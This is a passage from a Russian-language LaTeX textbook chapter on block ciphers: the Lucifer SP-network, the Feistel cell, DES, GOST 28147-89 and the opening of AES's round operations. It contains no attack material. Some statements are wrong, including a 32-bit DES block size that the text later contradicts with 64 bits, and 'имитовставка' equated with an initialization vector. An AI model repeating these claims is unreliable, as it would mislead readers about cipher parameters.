	
\includegraphics[width=0.8\textwidth]{pic/sp-network}
  \caption{SP-сеть, состоящая из 4-х P-блоков и 3-х слоёв S-блоков по 5 блоков в каждом}
  \label{fig:sp-network}
\end{figure}

Следующей составляющей будущего шифра стала возможность менять используемые S-блоки в зависимости от ключа. Вместо каждого из S-блоков в SP-сети Фейстель поместил модуль с двумя разными S-блоками. В зависимости от одного из битов ключа (своего для каждой пары блоков) использовался первый или второй S-блок. Результатом данного подхода стал первый вариант шифра в проекте <<Люцифер>>, который в упрощённом виде (с меньшим размером блока и меньшим числом слоёв) изображён на рис.~\ref{fig:lucifer}.

\begin{figure}[htb]
	\centering
	
\includegraphics[width=0.8\textwidth]{pic/lucifer}
  \caption{Общий вид (упрощённая схема) функции шифрования в одном из вариантов проекта <<Люцифер>>. Входной блок (в проекте <<Люцифер>> -- 128 бит) подавался на вход на несколько слоёв (в проекте -- 16) из P-блоков и пар S-блоков. S-блок в каждой паре выбирался в зависимости от значения соответствующего бита ключа}
  \label{fig:lucifer}
\end{figure}

Разделение функции шифрования на относительно простые раунды (<<слои>>), комбинация больших P-блоков со множеством S-блоков малого размера~--- всё это до сих пор используется в современных блочных шифрах.


\section{Ячейка Фейстеля}\index{ячейка Фейстеля|(}
\selectlanguage{russian}

Следующей идеей, продвинувшей развитие блочных шифров и приведшей к появлению государственного стандарта DES\index{шифр!DES}, стало появление конструкции, получившей название \emph{ячейка Фейстеля}. Данная конструкция приведена на рис.~\ref{fig:Feistel}.

\begin{figure}[!htb]
    \centering
    
\includegraphics[width=0.6\textwidth]{pic/feistel}
    \caption{Ячейка Фейстеля\label{fig:Feistel}}
\end{figure}

На рисунке~\ref{fig:Feistel} изображён один раунд шифрования блочного шифра, использующего оригинальную ячейку Фейстеля. Каждый раунд шифрования принимает на вход блок с чётным количеством бит и делит его на две равные части $L_k$ и $R_k$. Входным блоком для первого раунда является блок открытого текста. Правая часть $R_k$ без изменений становится левой частью входного блока $L_{k+1}$ следующего раунда шифрования. Кроме того, правая часть подаётся на вход \emph{функции Фейстеля} $F\left(R_k, K_k \right)$\index{функция!Фейстеля}, аргументами которой являются половина блока данных и раундовый ключ\index{ключ!раундовый} (раундовые ключи получаются в результате работы алгоритма ключевого расписания, как описано в разделе~\ref{section-block-ciphers-intro}). Результат работы функции Фейстеля складывается с помощью побитового сложения по модулю 2 с левой частью входного блока $L_k$. Полученная последовательность бит становится правой частью выходного блока раунда шифрования. Таким образом, работа $k$-го раунда ячейки Фейстеля описывается следующими соотношениями:
\[\begin{array}{l}
    L_{k+1} = R_{k}, \\
    R_{k+1} = L_{k} \oplus F\left( R_k, K_k \right).
\end{array}\]

Результатом шифрования является конкатенация последних выходных блоков $L_n$ и $R_n$, где $n$ -- число раундов шифрования.

Несложно показать, что, зная раундовые ключи $K_1, \dots, K_n$ и результат шифрования $L_n$ и $R_n$, можно восстановить открытый текст. В частности, для каждого раунда:
\[\begin{array}{l}
    R_k = L_{k+1}, \\
    L_k = R_{k+1} \oplus F\left( R_k, K_k \right).
\end{array}\]

Таким образом, ячейка Фейстеля гарантирует корректность работы блочного шифра вне зависимости от сложности функции Фейстеля\index{функция!Фейстеля} $F\left(R_k, K_k \right)$. В результате криптограф (автор шифра) при использовании ячейки Фейстеля не должен беспокоиться об обратимости функции шифрования в целом (конструкция ячейки Фестеля уже гарантирует это), а должен беспокоиться только о достаточной криптографической стойкости функции Фейстеля, необратимость которой не требуется (и даже вредит криптостойкости). Функция Фейстеля обычно состоит из блоков перестановки и подстановки бит (то есть из p- и s-блоков, уже рассмотренных ранее).

\index{ячейка Фейстеля|)}


\section{Шифр DES}\index{шифр!DES|(}
\selectlanguage{russian}

Развитием проекта <<Люцифер>> стал государственный стандарт США, известный как DES (\langen{data encryption standard}). Это первый из рассматриваемых нами блочных шифров, который имеет ярко выраженные раунды шифрования, отдельно выделенную функцию ключевого расписания и основан на классической ячейке Фейстеля\index{ячейка Фейстеля}. Поэтому для знакомства с шифром достаточно рассмотреть устройство функции Фейстеля\index{функция!Фейстеля} как основного элемента, отличающего данный шифр от аналогичных.

В шифре DES открытый текст делится на блоки по 32 бита, и они обрабатываются в 16-ти раундах. Раундовые ключи генерируются из исходных 64-ёх битов ключа (при этом значащими являются только 56 битов, а последние 8 битов используются для проверки корректности ввода ключа). На вход функции Фейстеля для шифра DES, схема которой приведена на рисунке~\ref{fig:des}, подаётся половина от размера входного блока -- 32 бита.

\begin{figure}[!htb]
    \centering
    
\includegraphics[width=0.75\textwidth]{pic/des}
    \caption{Функция Фейстеля\index{функция!Фейстеля} шифра DES\label{fig:des}}
\end{figure}

Эти 32 бита проходят через функцию расширения, которая с помощью дублирования отдельных битов превращает их в 48 битов. Они суммируются побитово по модулю 2 с раундовым ключом. Результат подаётся на вход 8-ми s-блоков, которые работают как таблицы замен последовательности из 6 битов в 4 бита (каждый блок). На выходе s-блоков получается $8 \times 4 = 32$ бита, которые попадают в p-блок перестановки. Результат работы p-блока является результатом функции Фейстеля\index{функция!Фейстеля} для одного раунда шифра DES.

Интересно отметить, что изначально автором предполагалось использовать ключ в 128 битов, но под напором АНБ (Агентство национальной безопасности, \langen{National Security Agency, NSA}) он был сокращён до 56 битов, что на тот момент составляло вполне достаточную для криптостойкости величину. Кроме того, АНБ указало обязательные к использованию s-блоки (таблицы замен). Много позже, в 90-х годах, когда были разработаны методы линейного и дифференциального криптоанализа, выяснилось, что предложенные АНБ в 70-х годах s-блоки устойчивы к данным методам криптоанализа, как будто специально делались с учётом возможности их использования.

\index{шифр!DES|)}


\section{ГОСТ 28147-89}\index{шифр!ГОСТ 28147-89|(}
\selectlanguage{russian}

Российски стандарт шифрования ГОСТ 28147-89 (\cite{GOST-89}) относится к действующим симметричным одноключевым криптографическим алгоритмам. Он зарегистрирован 2 июня 1989 года и введён в действие Постановлением Государственного комитета СССР по стандартам от 02.06.89 № 1409.
%Дата актуализации описания 01 февраля 2008 года, дата актуализации текста 15 марта 2009года.
Последнее изменение внесено в алгоритм 13 марта 2007 года.
ГОСТ 28147-89 устанавливает единый алгоритм криптографических преобразований для систем обмена информацией в вычислительных сетях и определяет правила шифрования и расшифрования данных, а также выработки имитовставки\index{имитовставка}. Основные параметры шифра таковы: размер блока составляет 64 бита, число раундов $m=32$, имеется 8 ключей по 32 бита каждый, так что общая длина ключа 256 бит. Основа алгоритма -- цепочка ячеек Фейстеля.

\begin{figure}[!ht]
    \centering
    \includegraphics[width=0.6\textwidth]{pic/gost-28147-89}
    \caption{Схема ГОСТ 28147-89\label{fig:gost-28147-89}}
\end{figure}

Структурная схема алгоритма шифрования представлена на рис.~\ref{fig:gost-28147-89} и включает:
\begin{itemize}
    \item ключевое запоминающее устройство (КЗУ) на 256 бит, которое состоит из восьми 32-разрядных накопителей $(X_0, X_1, X_2, X_3, X_4, X_5, X_6, X_7)$ и содержит сеансовые ключи шифрования одного раунда;
    \item 32-разрядный сумматор $\boxplus$ по модулю $2^{32}$;
    \item сумматор $\oplus$ по модулю 2;
    \item блок подстановки $(S)$;
    \item регистр циклического сдвига на одиннадцать шагов в сторону старшего разряда $(R)$.
\end{itemize}

Блок подстановки $(S)$ состоит из 8 узлов замены -- $s$-блоков, с памятью на 64 бита каждый. Поступающий на вход блока подстановки 32-разрядный вектор разбивается на восемь последовательных 4-разрядных векторов, каждый из которых преобразуется в 4-разрядный вектор соответствующим узлом замены. Узел замены представляет собой таблицу из шестнадцати строк, содержащих по четыре бита в строке. Входной вектор определяет адрес строки в таблице, заполнение данной строки является выходным вектором. Затем 4-разрядные выходные векторы последовательно объединяются в 32-разрядный вектор.

При перезаписи информации содержимое $i$-го разряда одного накопителя переписывается в $i$-й разряд другого накопителя.

Ключ, определяющий заполнение КЗУ, и таблицы блока подстановки $K$ являются секретными элементами.

Стандарт не накладывает ограничений на степень секретности защищаемой информации.

ГОСТ 28147-89 удобен как для аппаратной, так и для программной реализаций.

Алгоритм имеет четыре режима работы. Из них первые три -- режимы шифрования, а последний -- генерирования имитовставки\index{имитовставка} (другие названия: инициализирующий вектор, синхропосылка):
\begin{itemize}
    \item простой замены,
    \item гаммирования,
    \item гаммирования с обратной связью,
    \item выработки имитовставки\index{имитовставка}.
\end{itemize}


Подробно данные режимы описаны в следующем разделе.

\index{шифр!ГОСТ 28147-89|)}


\section{Стандарт шифрования США AES}\index{шифр!AES|(}
\selectlanguage{russian}

До 2001 г. стандартом шифрования данных в США был DES\index{шифр!DES} (аббревиатура от Data Encryption Standard), который был принят в 1980 году. Входной блок открытого текста и выходной блок шифрованного текста DES составляли по 64 бита каждый, длина ключа -- 56 бит (до процедуры расширения). Алгоритм основан на ячейке Фейстеля\index{ячейка Фейстеля} с S-блоками и таблицами расширения и перестановки бит. Количество раундов -- 16.

Для повышения криптостойкости и замены стандарта DES был объявлен конкурс на новый стандарт AES (аббревиатура от Advanced Encryption Standard). Победителем конкурса стал шифр Rijndael. Название составлено с использованием первых слогов фамилий его создателей (Rijmen и Daemen). В русскоязычном варианте читается как <<Рэндал>>~\cite{Kiwi:1999}. Шифр был утверждён в качестве стандарта FIPS 197 26 ноября 2001 г. и введён в действие 26 мая 2002 года~\cite{FIPS-PUB-197}.

AES -- это раундовый\index{шифр!раундовый} блочный\index{шифр!блочный} шифр с переменной длиной ключа (128, 192 или 256 бит) и фиксированной длиной входного и выходного блоков (128 бит).

\subsection[Состояние, ключ шифрования и число раундов]{Состояние, ключ шифрования и число \protect\\ раундов}

Различные преобразования воздействуют на результат промежуточного шифрования, называемый \emph{состоянием} ($\mathsf{State}$). Состояние представлено $(4 \times 4)$-матрицей из байтов $a_{i,j}$.

\emph{Ключ шифрования раунда} ($\mathsf{Key}$) также представляется прямоугольной $(4 \times \mathsf{Nk})$-матрицей из байтов $k_{i,j}$, где $\mathsf{Nk}$ равно длине ключа, разделённой на 32, то есть 4, 6 или 8.

Эти представления приведены ниже:
\[
    \mathsf{State} = \left[ \begin{array}{cccc}
        a_{0,0} & a_{0,1} & a_{0,2} & a_{0,3} \\
        a_{1,0} & a_{1,1} & a_{1,2} & a_{1,3} \\
        a_{2,0} & a_{2,1} & a_{2,2} & a_{2,3} \\
        a_{3,0} & a_{3,1} &a_{3,2} & a_{3,3}  \\
    \end{array} \right],
\] \[
    \mathsf{Key} = \left[ \begin{array}{cccc}
        k_{0,0} & k_{0,1} & k_{0,2} & k_{0,3} \\
        k_{1,0} & k_{1,1} & k_{1,2} & k_{1,3} \\
        k_{2,0} & k_{2,1} & k_{2,2} & k_{2,3} \\
        k_{3,0} & k_{3,1} & k_{3,2} & k_{3,3} \\
    \end{array} \right].
\]

Иногда блоки символов интерпретируются как одномерные последовательности из 4-байтных векторов, где каждый вектор является соответствующим столбцом прямоугольной таблицы. В этих случаях таблицы можно рассматривать как наборы из 4, 6 или 8 векторов, нумеруемых в диапазоне $0 \dots 3$, $0 \dots 5$ или $0 \dots 7$ соответственно. В тех случаях, когда нужно пометить индивидуальный байт внутри 4-байтного вектора, используется обозначение $(a, b, c, d)$, где $a$, $b$, $c$, $d$ соответствуют байтам в одной из позиций ($0$, $1$, $2$, $3$) в столбце или векторе.

\emph{Входные} и \emph{выходные} блоки шифра AES рассматриваются как последовательности 16 байтов $(a_0, a_1, \dots, a_{15})$. Преобразование входного блока $(a_0, \dots, a_{15})$ в исходную $(4 \times 4)$-матрицу состояния $\mathsf{State}$ или преобразование конечной матрицы состояния в выходную последовательность проводится по правилу (запись по столбцам):
    \[ a_{i,j} = a_{i + 4j}, ~ i = 0 \dots 3, ~ j = 0 \dots 3. \]

Аналогично ключ шифрования может рассматриваться как последовательность байтов $(k_0, k_1, \dots, k_{4 \cdot \mathsf{Nk} - 1})$, где $\mathsf{Nk} = 4, 6, 8$. Число байтов в этой последовательности равно 16, 24 или 32, а номера этих байтов находятся в интервалах $0 \dots 15$, $0 \dots 23$ или $0 \dots 31$ соответственно. $(4 \times \mathsf{Nk})$-матрица ключа шифрования $\mathsf{Key}$ задаётся по правилу:
    \[ k_{i,j} = k_{i + 4j}, ~ i = 0 \dots 3, ~ j = 0 \dots \mathsf{Nk} - 1. \]

Число раундов $\mathsf{Nr}$ зависит от длины ключа. Его значения приведены в таблице ниже.

\begin{center}
    \begin{tabular}{|l|c|c|c|}
    \hline
    Длина ключа, биты           &128 & 192 & 256 \\
    $\mathsf{Nk}$               & 4  & 6   & 8 \\
    Число раундов $\mathsf{Nr}$ & 10 & 12 & 14 \\
    \hline
    \end{tabular}
\end{center}


\subsection{Операции в поле}

При переходе от одного раунда к другому матрицы \emph{состояния} и \emph{ключа шифрования раунда} подвергаются ряду преобразований. Преобразования могут осуществляться над:
\begin{itemize}
    \item отдельными байтами или парами байтов (необходимо определить операции сложения и умножения);
    \item столбцами матрицы, которые рассматриваются как 4-мерные векторы с соответствующими байтами в качестве элементов;
    \item строками матрицы.
\end{itemize}

В алгоритме шифрования AES байты рассматриваются как элементы поля $\GF{2^8}$, а вектор-столбцы из четырёх байтов -- как многочлены третьей степени над полем $\GF{2^8}$. В приложении~\ref{chap:discrete-math} дано подробное описание этих операций.

Хотя определение операций дано через их математическое представление, в реализациях шифра AES активно используются таблицы с заранее вычисленными результатами операций над отдельными байтами, включая взятие обратного элемента и перемножение элементов в поле $\GF{2^8}$ (на что требуется 256 байтов и 65 Кбайт памяти соответственно).

\subsection{Операции одного раунда шифрования}

В каждом раунде шифра AES, кроме последнего раунда, производятся следующие 4 операции:
\begin{itemize}
  \item замена байтов, $\mathsf{SubBytes}$;
  \item сдвиг строк, $\mathsf{ShiftRows}$;
  \item перемешивание столбцов, $\mathsf{MixColumns}$;
  \item добавление текущего ключа, $\mathsf{AddRoundKey}$.
\end{itemize}

В последнем раунде исключается операция <<перемешивание столбцов>>. В обозначениях, близких к языку С, можно записать программу в следующем виде:
\[
    \begin{array}{l}
        \mathsf{Round(State, RoundKey)} \{ \\
        ~~~~ \mathsf{SubBytes(State)}; \\
        ~~~~ \mathsf{ShiftRows(State)}; \\
        ~~~~ \mathsf{MixColumns(State)}; \\
        ~~~~ \mathsf{AddRoundKey(State, RoundKey)}; \\
        \} \\
    \end{array}
\]
Последний раунд слегка отличается, и его можно записать в следующем виде:
\[
    \begin{array}{l}
        \mathsf{Round(State, RoundKey)} \{ \\
        ~~~~ \mathsf{SubBytes(State)}; \\
        ~~~~ \mathsf{ShiftRows(State)}; \\
        ~~~~ \mathsf{AddRoundKey(State, RoundKey)}; \\
        \} \\
    \end{array}
\]
В этих обозначениях все <<функции>>, а именно: $\mathsf{Round}$, $\mathsf{SubBytes}$, $\mathsf{ShiftRows}$, $\mathsf{MixColumns}$ и $\mathsf{AddRoundKey}$ -- воздействуют на матрицы, определяемые указателем $\mathsf{(State, RoundKey)}$. Сами преобразования описаны в следующих разделах.


\subsubsection{Замена байтов $\mathsf{SubBytes}$}

Нелинейная операция <<замена байтов>> действует независимо на каждый байт $a_{i,j}$ текущего состояния. Таблица замены (или $s$-блок) является обратимой и формируется последовательным применением двух преобразований.

\begin{enumerate}
    \item Сначала байт $a$ представляется как элемент $a(x)$ поля Галуа $\GF{2^8}$ и заменяется на обратный элемент $a^{-1} \equiv a^{-1}(x)$ в поле. Байт $\mathrm{'00'}$, для которого обратного элемента не существует, переходит сам в себя.
    \item Затем к обратному байту $a^{-1} = (x_0, x_1, x_2, x_3, x_4, x_5, x_6, x_7)$ применяется аффинное преобразование над полем $\GF{2}$ следующего вида:
        \[
            \left[  \begin{array}{c}
                y_{0} \\ y_{1} \\ y_{2} \\ y_{3} \\ y_{4} \\ y_{5} \\ y_{6} \\ y_{7} \\
            \end{array} \right] = \left[ \begin{array}{cccccccc}
                1 & 0 & 0  & 0 & 1 & 1 & 1 & 1 \\
                1 & 1 & 0  & 0 & 0 & 1 & 1 & 1 \\
                1 & 1 & 1  & 0 & 0 & 0 & 1 & 1 \\
                1 & 1 & 1  & 1 & 0 & 0 & 0 & 1 \\
                1 & 1 & 1  & 1 & 1 & 0 & 0 & 0 \\
                0 & 1 & 1  & 1 & 1 & 1 & 0 & 0 \\
                0 & 0 & 1  & 1 & 1 & 1 & 1 & 0 \\
                0 & 0 & 0  & 1 & 1 & 1 & 1 & 1  \
            \end{array} \right] \cdot \left[ \begin{array}{c}
                x_{0} \\ x_{1} \\ x_{2} \\ x_{3} \\ x_{4} \\ x_{5} \\ x_{6} \\ x_{7} \\
            \end{array} \right] + \left[ \begin{array}{c}
                1 \\ 1 \\ 0 \\ 0 \\ 0 \\ 1 \\ 1 \\ 0 \\
            \end{array} \right].
        \]
\end{enumerate}

В полиномиальном представлении это аффинное преобразование имеет вид
\[Y(z)=(z^4)X(z)(1+z+z^2+z^3+z^4)\mod(1+z^8) + F(z).\]
Применение описанных операций $s$-блока ко всем байтам текущего состояния обозначено
    \[ \mathsf{SubBytes(State)}. \]

Обращение операции $\mathsf{SubBytes(State)}$ также является заменой байтов. Сначала выполняется обратное аффинное преобразование, а затем от полученного байта берётся обратный.


\subsubsection{Сдвиг строк $\mathsf{ShiftRows}$}

Для выполнения операции <<сдвиг строк>> строки в таблице текущего состояния циклически сдвигаются влево. Величина сдвига различна для различных строк. Строка $0$ не сдвигается вообще. Строка $1$ сдвигается на $C_1=1$ позицию, строка $2$ -- на $C_2=2$ позиции, строка $3$ -- на $C_3=3$ позиции.
%Величины $C1,C2$ и $C3$ зависят от $Nb$. Их значения приведены в таблице~\ref{tab:AES-shift-rows}.
%
%\begin{table}[!ht]
%    \centering
%    \begin{tabular}{|c|c|c|c|}
%        \hline
%        Nb & C1 & C2 & C3 \\
%        \hline
%        4  & 1  & 2  & 3  \\
%        \hline
%        6  & 1  & 2  & 3  \\
%        \hline
%        8  & 1  & 3  & 4  \\
%        \hline
%    \end{tabular}
%    \caption{Сдвиг $C$ и длина блока $Nb$.}
%    \label{tab:AES-shift-rows}
%\end{table}


\subsubsection{Перемешивание столбцов $\mathsf{Mix Columns}$}

При выполнении операции <<перемешивание столбцов>> столбцы матрицы текущего состояния рассматриваются как многочлены над полем $\GF{2^8}$ и умножаются по модулю многочлена $y^4 +1$ на фиксированный многочлен $\mathbf{c}(y)$, где
    \[ \mathbf{c}(y) = \mathrm{'03'} y^3 + \mathrm{'01'} y^2 + \mathrm{'01'} y + \mathrm{'02'}. \]
